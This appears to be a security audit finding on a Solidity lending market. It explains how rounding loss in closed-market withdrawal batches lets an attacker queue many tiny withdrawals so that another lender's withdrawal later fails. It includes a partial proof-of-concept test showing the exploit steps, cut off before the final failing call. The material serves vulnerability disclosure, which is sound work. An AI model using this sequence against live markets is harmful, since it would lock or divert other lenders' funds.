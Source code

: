 ```solidity
    uint128 newTotalWithdrawn = uint128(
      MathUtils.mulDiv(batch.normalizedAmountPaid, status.scaledAmount, batch.scaledTotalAmount)
    );
```

This makes sure that the sum of all withdraws doesn't exceed the total `batch.normalizedAmountPaid`.

However, this invariant could be broken, if the market is closed as it allows for a batch's withdraws to be executed, before all requests are added.

Consider the market is made of 3 lenders - Alice, Bob and Laurence.

1.  Alice queues a larger withdraw with an expiry time 1 year in the future.
2.  Market gets closed.
3.  Alice executes her withdraw request at the current rate.
4.  Bob makes queues multiple smaller requests. As they're smaller, the normalized amount they represent suffers higher precision loss. Because they're part of the whole batch, they also slightly lower the batch's overall rate.
5.  Bob executes his requests.
6.  Laurence queues a withdraw for his entire amount. When he attempts to execute it, it will fail. This is because Alice has executed her withdraw at a higher rate than the current one and there's now insufficient `state.normalizedUnclaimedWithdrawals`

Note: marking this as High severity as it both could happen intentionally (attacker purposefully queuing numerous low-value withdraws to cause rounding down) and also with normal behaviour in high-value closed access markets where a user's withdraw could easily be in the hundreds of thousands.

Also breaks core invariant:

> The sum of all transfer amounts for withdrawal executions in a batch must be less than or equal to batch.normalizedAmountPaid

Adding a PoC to showcase the issue:

```solidity
  function test_deadrosesxyzissue() external {
    parameters.annualInterestBips = 3650;
    _deposit(alice, 1e18);
    _deposit(bob, 0.5e18);
    address laurence = address(1337);
    _deposit(laurence, 0.5e18);
    fastForward(200 weeks);

    vm.startPrank(borrower);
    asset.approve(address(market), 10e18);
    asset.mint(borrower, 10e18);

    vm.stopPrank();
    vm.prank(alice);
    uint32 expiry = market.queueFullWithdrawal();       // alice queues large withdraw

    vm.prank(borrower);
    market.closeMarket();                               // market is closed

    market.executeWithdrawal(alice, expiry);     // alice withdraws at the current rate

    vm.startPrank(bob);
    for (uint i; i < 10; i++) {
      market.queueWithdrawal(1);        // bob does multiple small withdraw requests just so they round down the batch's overall rate
    }
    market.queueFullWithdrawal();
    vm.stopPrank();
    vm.prank(laurence);
    market.queueFullWithdrawal();

```